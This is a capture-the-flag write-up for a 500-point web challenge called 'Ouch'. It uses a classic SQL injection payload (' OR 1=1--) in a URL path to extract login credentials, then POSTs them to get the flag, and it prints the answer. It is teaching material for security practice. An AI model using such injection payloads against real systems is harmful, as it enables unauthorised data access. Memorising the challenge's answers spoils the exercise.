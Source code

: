 # Ouch

**Challenge Category: Web** <br />
**Challenge Points: 500**

## Challenge Description

A link has once granted access to the user database through the path `/user/username123/p@ssw0rd123`, but it does not work for now.

`ouch.nypinfosec.com`

## Analysis

We know from the challenge description that there is an endpoint `/user/username123/p@ssw0rd123`.

### 1. Requesting Normally

When we send a HTTP request to the clued endpoint, we get an "Error" as the response.

```sh
$ curl -s "https://ouch.nypinfosec.com/user/username123/p@ssw0rd123"
```

```
Error
```

### 2. Testing SQL Injection

What happens if we try injecting malicious SQL code? Does it still return the same "Error" as response?

```sh
$ curl "https://ouch.nypinfosec.com/user/username123/p@ssw0rd123'%20OR%201=1--"
```

```
Username: 5ql, Password: INJeC7ioN
```

## Solution

1. We know the `username` and `password` login credentials.
2. We also know that the root of the website is accessible, hinted in the challenge description.

```sh
$ curl -s "https://ouch.nypinfosec.com"
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>NYP InfoSec CTF</title>
  </head>
  <body>
    <div class="login">
      <form action="/" method="post">
        <label for="username">
          <i class="fas fa-user"></i>
        </label>
        <input
          type="text"
          name="username"
          placeholder="Username"
          id="username"
          required
          hidden
        />
        <label for="password">
          <i class="fas fa-lock"></i>
        </label>
        <input
          type="password"
          name="password"
          placeholder="Password"
          id="password"
          required
          hidden
        />
        <div class="msg"></div>
        <input type="submit" value="Login" hidden />
      </form>
    </div>
  </body>
</html>
```

3. We notice 2 hidden input fields matching the login credentials we found earlier. Looking at the `<form>` element, we notice the `action="/"` and `method="post"` attributes, hinting that we can also send a `POST` request to this endpoint with the credentials we found earlier.

```sh
$ curl -s -X POST "https://ouch.nypinfosec.com" -d "username=5ql" -d "password=INJeC7ioN"
```

```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>Title</title>
  </head>
  <body>
    <p>The flag is NYP{oUcH_tH3_1nj3c71on_w@s_p@infu1}</p>
  </body>
</html>
```

4. Let's cleanup the output a little bit.

```sh
$ curl -s -X POST "https://ouch.nypinfosec.com" -d "username=5ql" -d "password=INJeC7ioN" | grep -o "NYP{.*}"
```

```
NYP{oUcH_tH3_1nj3c71on_w@s_p@infu1}
```
